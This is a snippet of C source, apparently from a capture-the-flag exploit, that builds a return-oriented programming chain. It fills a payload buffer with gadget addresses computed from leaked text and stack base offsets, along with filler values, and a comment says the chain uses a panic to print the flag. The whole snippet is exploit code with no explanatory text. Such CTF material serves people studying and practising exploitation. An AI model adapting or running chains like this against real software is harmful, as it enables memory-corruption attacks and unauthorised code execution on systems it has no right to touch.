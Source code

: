 ```C
	sp_offset += 0x30 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x9e1c;

	sp_offset += 0x60 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x2358;
	*(payload + sp_offset + 2) = stack_base + 0x8;
	*(payload + sp_offset + 3) = stack_base + 0x2b0;
	*(payload + sp_offset + 4) = 0x1;
	*(payload + sp_offset + 5) = 0x0;
	*(payload + sp_offset + 6) = 0x11;
	*(payload + sp_offset + 7) = 0x2424242424242424;
	*(payload + sp_offset + 8) = 0x2525252525252525;
	*(payload + sp_offset + 9) = 0x2626262626262626;
	*(payload + sp_offset + 10) = 0x2727272727272727;
	*(payload + sp_offset + 11) = 0x2828282828282828;

	sp_offset += 0x60 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x2798;
	*(payload + sp_offset + 2) = 0x1919191919191919;
	*(payload + sp_offset + 3) = stack_base + 0x360;
	*(payload + sp_offset + 4) = stack_base + 0x8 + 0x9 + 0x4 + 0x4 + 0x4; // Use panic to dispaly the flag
	*(payload + sp_offset + 5) = 0x40;
	*(payload + sp_offset + 6) = 0x2323232323232323;

	sp_offset += 0x50 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x13c0;
	*(payload + sp_offset + 2) = 0x1919191919191919;
	*(payload + sp_offset + 3) = 0x2020202020202020;
	*(payload + sp_offset + 4) = 0x2121212121212121;
	*(payload + sp_offset + 5) = 0x2222222222222222;

	sp_offset += 0x40 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x9e20;
	*(payload + sp_offset + 2) = stack_base;

	sp_offset += 0x20 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x42c4;
	*(payload + sp_offset + 4) = 50;
	*(payload + sp_offset + 5) = stack_base + 0x8 + 0x9 + 0x4 * 3;
	*(payload + sp_offset + 6) = stack_base + 0x12b0;
	*(payload + sp_offset + 7) = 0x2424242424242424;
	*(payload + sp_offset + 8) = 0x2525252525252525;
	*(payload + sp_offset + 9) = 0x2626262626262626;
	*(payload + sp_offset + 10) = text_base + 0xb580;
	*(payload + sp_offset + 11) = 0x2828282828282828;

	sp_offset += 0x60 / 8;

	*(payload + sp_offset) = stack_base;
	*(payload + sp_offset + 1) = text_base + 0x2d38;
```
